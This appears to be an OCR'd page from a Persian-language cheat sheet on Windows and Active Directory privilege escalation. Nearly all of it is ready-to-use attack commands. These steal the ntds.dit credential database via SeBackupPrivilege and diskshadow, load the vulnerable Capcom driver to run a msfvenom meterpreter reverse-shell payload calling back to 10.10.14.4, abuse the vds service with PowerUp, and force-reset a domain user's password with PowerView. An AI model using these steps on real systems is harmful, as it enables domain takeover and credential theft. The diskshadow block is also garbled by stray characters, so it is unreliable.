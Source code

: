 ### کپی از ndts با استفاده از مجوز SeBackupPrivilege 

```text
import-module .\SeBackupPrivilegeUtils.dll
import-module .\SeBackupPrivilegeCmdLets.dll
Copy-FileSebackupPrivilege z:\Windows\NTDS\ntds.dit C:\temp\ndts.dit
```

### خواندن فایل ها بدون احراز هویت با diskshadow

```text
1. priv.txt contain
SET CONTEXT PERSISTENT NOWRITERSp
add volume c: alias 0xprashantp
createp
expose %0xprashant% z:p
2. exec with diskshadow /s priv.txt
```

### ارتقا دسترسی با مجوز SeLoadDriverPrivilege

```text

FIRST:
Download https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys
Download https://raw.githubusercontent.com/TarlogicSecurity/EoPLoadDriver/master/eoploaddriver.cpp
Download https://github.com/tandasat/ExploitCapcom
change ExploitCapcom.cpp line 292 
TCHAR CommandLine[] = TEXT("C:\\Windows\\system32\\cmd.exe");
to
TCHAR CommandLine[] = TEXT("C:\\test\\shell.exe");
then compile ExploitCapcom.cpp and eoploaddriver.cpp to .exe

SECOND:
1. msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.4 LPORT=4444 -f exe > shell.exe
2. .\eoploaddriver.exe System\CurrentControlSet\MyService C:\test\capcom.sys
3. .\ExploitCapcom.exe
4. in msf exec `run`
```

### ارتقا دسترسی با سرویس vds.exe

```text
. .\PowerUp.ps1
Invoke-ServiceAbuse -Name ‘vds’ -UserName ‘domain\user1’
```

### ارتقا دسترسی با ForceChangePassword

```text
https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1
Import-Module .\PowerView_dev.ps1
Set-DomainUserPassword -Identity user1 -verbose
Enter-PSSession -ComputerName COMPUTERNAME -Credential “”
```
